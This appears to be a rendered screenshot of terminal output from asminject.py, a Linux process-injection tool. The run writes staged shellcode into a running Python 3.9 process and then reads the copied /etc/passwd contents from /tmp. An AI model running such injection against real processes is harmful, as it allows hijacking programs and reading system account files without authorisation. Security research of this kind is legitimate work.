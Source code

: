```
[!] A list of relative offsets was not specified. If the injection fails, check your payload to make sure you're including the offsets of any exported functions it calls.
[*] '/usr/bin/python3.9' has a base address of 4194304, which is very low for position-independent code. If the exploit attempt fails, try adding --non-pic-binary "/usr/bin/python3.9" to your asminject.py options.
[*] /usr/bin/python3.9: 0x0000000000400000
[*] /usr/lib/locale/locale-archive: 0x00007ff7aab92000
[*] /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache: 0x00007ff7ab21d000
[*] /usr/lib/x86_64-linux-gnu/ld-2.33.so: 0x00007ff7ab224000
[*] /usr/lib/x86_64-linux-gnu/libc-2.33.so: 0x00007ff7aae7c000
[*] /usr/lib/x86_64-linux-gnu/libdl-2.33.so: 0x00007ff7ab1fc000
[*] /usr/lib/x86_64-linux-gnu/libexpat.so.1.8.3: 0x00007ff7ab085000
[*] /usr/lib/x86_64-linux-gnu/libm-2.33.so: 0x00007ff7ab0b4000
[*] /usr/lib/x86_64-linux-gnu/libpthread-2.33.so: 0x00007ff7ab047000
[*] /usr/lib/x86_64-linux-gnu/libutil-2.33.so: 0x00007ff7ab1f7000
[*] /usr/lib/x86_64-linux-gnu/libz.so.1.2.11: 0x00007ff7ab068000
[*] 0: 0x0000000000931000
[*] [heap]: 0x000000000275e000
[*] [stack]: 0x00007ffc1fbd6000
[*] [vdso]: 0x00007ffc1fbfb000
[*] [vvar]: 0x00007ffc1fbf7000
[*] Validating ability to assemble stage 2 code
[*] Validation assembly of stage 2 succeeded
[*] Switching to super slow motion, like every late 1990s/early 2000s action film director did after seeing _The Matrix_...
[*] Current process priority for asminject.py (PID: 2036595) is 0
[*] Current CPU affinity for asminject.py (PID: 2036595) is [0, 1]
[*] Current process priority for target process (PID: 2036577) is 0
[*] Current CPU affinity for target process (PID: 2036577) is [0, 1]
[*] Setting process priority for asminject.py (PID: 2036595) to -20
[*] Setting process priority for target process (PID: 2036577) to 20
[*] Setting CPU affinity for target process (PID: 2036577) to [0, 1]
[*] RIP: 0x7ff7aaf706c4
[*] RSP: 0x7ffc1fbf5430
[*] Using: 0x006201c2 for 'ready for shellcode write' state value
[*] Using: 0x005092ae for 'shellcode written' state value
[*] Using: 0x0014f519 for 'ready for memory restore' state value
[*] Wrote first stage shellcode at 0x00007ff7aaf706c4 in target process 2036577
[*] Returning to normal time
[*] Setting process priority for asminject.py (PID: 2036595) to 0
[*] Setting process priority for target process (PID: 2036577) to 0
[*] Setting CPU affinity for target process (PID: 2036577) to [0, 1]
[*] Waiting for injected code to update the state value
[*] Waiting for injected code to update the state value
[*] Writing stage 2 to 0x00007ff7ab20d000 in target memory
[*] Writing 0x00000000005092ae to 0x00007ffc1fbf6fd8 in target memory to indicate OK
[*] Stage 2 proceeding
[*] Waiting for injected code to update the state value
[*] Restoring original memory content
[+] Done!

# cat /tmp/bishopfox.txt            
                       
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...omitted for brevity...
```
